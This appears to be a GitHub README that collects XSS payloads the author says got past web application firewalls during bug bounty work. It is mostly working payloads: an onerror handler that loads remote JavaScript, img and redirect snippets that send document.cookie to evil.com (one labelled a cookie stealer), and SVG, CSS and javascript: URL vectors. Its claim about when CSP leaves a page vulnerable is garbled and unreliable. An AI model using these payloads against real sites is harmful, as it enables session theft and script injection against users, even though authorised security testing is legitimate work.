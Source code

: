 # xss_waf_bypass
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://basedygt.github.io/xss.js'; document.head.appendChild(script);">
```

2. **Data Exfiltration through Image Source (when CSP is disabled):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

Vulnerable when

- Absence of Content-Security-Policy header in the response
- Presence of Content-Security-Policy header with a value of `default-src` or `none`

3. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

4. **SVG XSS:**

```html
<svg/onload=alert(document.domain)>
```

5. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

6. **JavaScript Protocol Handler:**
   
```html
<a href="javascript:alert('XSS')">Click Me</a>
```

### Cookie Stealer Example:

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```
